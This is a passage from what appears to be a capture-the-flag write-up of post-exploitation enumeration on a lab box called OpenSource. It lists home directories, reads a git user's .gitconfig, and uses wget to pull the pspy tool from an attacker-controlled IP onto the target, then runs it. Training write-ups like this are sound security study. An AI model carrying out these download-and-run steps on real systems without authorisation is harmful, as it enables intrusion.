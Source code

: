 There is one other home directory, for the git user:

```

dev01@opensource:/home$ ls
dev01  git

```

In the directory, there’s only one directory (`.ssh`) that I can’t access, and `.gitconfig`:

```

dev01@opensource:/home/git$ la -la
total 16
drwxr-xr-x 3 git  git  4096 May  4 16:35 .
drwxr-xr-x 4 root root 4096 May 16 12:51 ..
-rw-r--r-- 1 git  git   112 Apr 27 20:32 .gitconfig
drwx------ 2 git  git  4096 May  4 16:35 .ssh
dev01@opensource:/home/git$ cat .gitconfig 
[user]
        name = Gitea
        email = gitea@fake.local
[core]
        quotePath = false
[receive]
        advertisePushOptions = true

```

#### pspy

There’s not much of interest in the process list, but I’ll upload [pspy](https://github.com/DominicBreuker/pspy) to look for any processes that run periodically. I’ll download the latest release, and serve it with Python webserver. From OpenSource, I’ll fetch the file into `/tmp`:

```

dev01@opensource:/tmp$ wget 10.10.14.6/pspy64
--2022-09-30 13:16:54--  http://10.10.14.6/pspy64
Connecting to 10.10.14.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                 100%[===================================>]   2.94M  1.68MB/s    in 1.7s    

2022-09-30 13:16:56 (1.68 MB/s) - ‘pspy64’ saved [3078592/3078592]

```

I’ll make it executable and run it:

```

dev01@opensource:/tmp$ ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
...[snip]...

```
